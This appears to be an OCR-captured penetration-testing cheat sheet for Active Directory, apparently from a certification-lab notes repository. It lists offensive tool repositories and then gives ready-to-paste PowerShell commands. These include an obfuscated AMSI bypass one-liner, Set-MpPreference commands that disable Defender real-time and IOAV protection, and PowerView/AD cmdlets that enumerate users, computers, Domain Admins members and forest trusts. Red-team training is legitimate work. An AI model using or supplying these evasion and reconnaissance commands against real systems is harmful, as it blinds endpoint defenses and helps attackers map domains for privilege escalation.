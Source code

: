 
## Extra Tools
1. https://github.com/61106960/adPEAS
2. https://github.com/phackt/Invoke-Recon
3. https://github.com/itm4n/PrivescCheck
4. https://github.com/hausec/Bloodhound-Custom-Queries
5. https://github.com/sense-of-security/ADRecon/tree/master
6. https://github.com/calebstewart/bypass-clm

---

## Command master 
> Check the misc notes master

### 1. Bypass defender
```powershell
# AMSI
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )

# Bypass real time monitoring ( admin privs )
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
```

### 2. Domain Enumeration
```powershell
# Users
Get-NetUser
# To list a specific property of all the users, say, samaccountname
Get-ADUser -Filter * | Select -ExpandProperty samaccountname

# computers
Get-NetComputer
# Now, to enumerate member computers in the domain we can use Get-ADComputer
Get-ADComputer –Filter * | select –expand name

# domain admin
Get-NetDomain
# To see attributes of the Domain Admins group
Get-ADGroup -Identity 'Domain Admins' -Properties *

# See Attributes of the Domain Admins Group
Get-NetGroup -GroupName "Domain Admins" -FullData

# To enumerate members of the Domain Admins group
Get-ADGroupMember -Identity 'Domain Admins'
# Get Members of the Domain Admins group
Get-NetGroupMember -GroupName "Domain Admins"

# To enumerate members of the Enterprise Admins group:
Get-ADGroupMember -Identity 'Enterprise Admins' -Server techcorp.local

# Forest
Get-NetDomainTrust
Get-NetForestDomain | Get-NetDomainTrust

# If bidirectional
Get-NetForestDomain -Forest eurocorp.local -Verbose | Get-NetDomainTrust

```